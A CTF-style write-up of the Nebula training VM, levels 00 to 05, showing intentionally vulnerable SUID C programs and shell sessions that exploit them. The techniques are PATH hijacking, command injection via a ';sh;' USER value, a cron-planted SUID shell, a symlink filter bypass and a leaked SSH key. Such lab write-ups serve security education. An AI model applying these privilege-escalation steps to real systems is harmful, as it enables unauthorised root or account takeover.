 ```yaml
---
layout: post
title: "Exploit-Exercises: Nebula (00-05)"
categories: vulnhub exploit-exercises
toc: true
---
```

Image: [Exploit-Exercises: Nebula (v5)](https://www.vulnhub.com/entry/exploit-exercises-nebula-v5,31/)

Because it was not possible to log in via ssh, we generated the host key:

```
ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
```

# Level00

```
level00@nebula:~$ find / \( -perm -4000 \) 2>/dev/null 
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/ping
/bin/ping6
/bin/su
[ .. SNIP .. ]
```

We found a suspicious file on the first line, after executing, we obtained flag.
```
level00@nebula:~$ id
uid=1001(level00) gid=1001(level00) groups=1001(level00)
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

# Level01
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Solution:
```
level01@nebula:~$ export PATH=.:$PATH
level01@nebula:~$ echo 'sh' > echo
level01@nebula:~$ chmod +x ./echo
level01@nebula:~$ id
uid=1002(level01) gid=1002(level01) groups=1002(level01)
level01@nebula:~$ /home/flag01/flag01
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

# Level02
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

Solution:
```
level02@nebula:~$ export USER=';sh;'
level02@nebula:~$ /home/flag02/flag02 
about to call system("/bin/echo ;sh; is cool")

sh-4.2$ getflag 
You have successfully executed getflag on a target account
```

# Level03
There is a crontab entry that is called every couple of minutes.

Because the /tmp is mounted with nosuid option, we use home directory to store suid binary:
```
level03@nebula:~$ mount | grep nosuid
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)
vmware-vmblock on /run/vmblock-fuse type fuse.vmware-vmblock (rw,nosuid,nodev,default_permissions,allow_other)
```

The file invoked by cron is here:

```bash
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
``` 

Our code to obtain suid shell:
```bash
level03@nebula:~$ cd /home/flag03/writable.d/

level03@nebula:/home/flag03/writable.d$ echo '#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
   setreuid(geteuid(),geteuid());
   execve("/bin/sh", NULL, NULL);

   return 0;
}
' > /tmp/run.c


level03@nebula:/home/flag03/writable.d$ echo '#!/bin/bash
gcc /tmp/run.c -o /home/flag03/x
chmod +s /home/flag03/x
' > run.sh
level03@nebula:/home/flag03/writable.d$ chmod +x run.sh
```

After a little waiting, the suid binary is created:
```bash
level03@nebula:/home/flag03/writable.d$ ../x 
bash-4.2$ getflag 
You have successfully executed getflag on a target account
```

# Level04
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

We cannot read the token file, but symlink technique is sufficient:
```
level04@nebula:~$ cd /home/flag04/
level04@nebula:/home/flag04$ ./flag04 
./flag04 [file to read]
level04@nebula:/home/flag04$ ./flag04 token 
You may not access 'token'
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/x
level04@nebula:/home/flag04$ ./flag04 /tmp/x 
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su - flag04
Password: 
flag04@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

# Level05
In /home/flag05 we can find the backup file with ssh private key.

```
level05@nebula:/home/flag05$ tar xvzf .backup/backup-19072011.tgz  -C /tmp/
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys

level05@nebula:/home/flag05$ ssh -i /tmp/.ssh/id_rsa flag05@0
flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

